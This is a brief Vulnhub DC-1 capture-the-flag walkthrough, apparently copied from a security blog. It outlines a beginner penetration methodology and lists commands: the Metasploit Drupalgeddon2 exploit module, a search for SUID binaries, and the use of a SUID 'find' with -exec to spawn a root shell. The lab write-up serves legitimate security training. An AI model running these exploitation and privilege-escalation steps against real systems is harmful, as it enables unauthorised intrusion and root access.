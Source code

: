 ## Vulnhub Walkthrough

###### #Beginner

**Penetrating Methodology:**

- IP Discovery using netdiscover
- Network scanning (Nmap)
- Surfing HTTPS service port (80)
- Finding Drupal CMS
- Exploiting Drupalgeddon2 to get a reverse shell
- Finding files with SUID bit set
- Finding the “find” command with SUID bit set
- Getting root shell with “find” command
- Getting final flag

`use exploit/unix/webapp/drupal_drupalgeddon2`

`find / -perm -u=s -type f 2>/dev/null`

`locate /usr/bin/find`

`touch raj`

`find raj -exec "whoami" \;` [^1]

`find raj -exec "/bin/sh" \;`

[原文](https://www.hackingarticles.in/dc-1-vulnhub-walkthrough/)

---

[^1]: As “find” command has SUID bit set, we can execute the command as “root” user. We create a file called “raj” and use “find” command to check if is executing the commands as root user, the reason for creating a file is so that we can use with “find” command. As running it with a single file will run the command only once.